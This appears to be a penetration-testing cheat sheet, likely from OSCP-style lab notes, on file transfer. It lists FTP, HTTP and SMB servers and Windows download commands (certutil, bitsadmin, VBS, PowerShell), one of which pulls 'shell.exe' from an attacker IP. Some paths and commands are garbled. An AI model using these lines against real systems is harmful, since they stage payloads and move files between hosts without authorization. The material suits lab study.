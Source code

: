 # Serve

### FTP 
````
Python –c pyftpdlib –p 21 –write
````

### HTTP 
````
sudo python3 -m http.server 80 
sudo python -m SimpleHTTPServer 80 
````

### SMB 
````
sudo impacket-smbserver <sharename> <share path>
````


# Client 
### From Windows 

FTP Upload / Download 
````
echo "open <IP> ">ftp.txt
echo "offsec">>ftp.txt
echo "offsec">>ftp.txt
echo "bin">>ftp.txt
echo "get file.exe">>ftp.txt
echo "put file.exe">>ftp.txt
echo "bye">>ftp.txt

ftp -s ftp.txt
````

HTTP  Download 
````
certutil -urlcache -f http://10.10.14.12:8000/shell.exe shell.exe 
bitsadmin /transfer n http://domain/file c:%homepath%file

VBS
Set args = Wscript.Arguments Url = "http://domain/file" dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") dim bStrm: Set bStrm = createobject("Adodb.Stream") xHttp.Open "GET", Url, False xHttp.Send with bStrm     .type = 1 '     .open     .write xHttp.responseBody     .savetofile " C:%homepath%file", 2 ' end with
C:>cscript test.vbs
Check lab guide for script 

Powershell 
$p = New-Object System.Net.WebClient $p.DownloadFile("http://domain/file" "C:%homepath%file")
PS C:> .test.ps1
````

SMB Upload / Download 
````
copy \\IP-address\share\x x 
net view \\<ip>
net use x: \127.0.0.1share /user:example.comuserID myPassword

````


### From Linux 

wget 
curl
python
perl
ruby

````


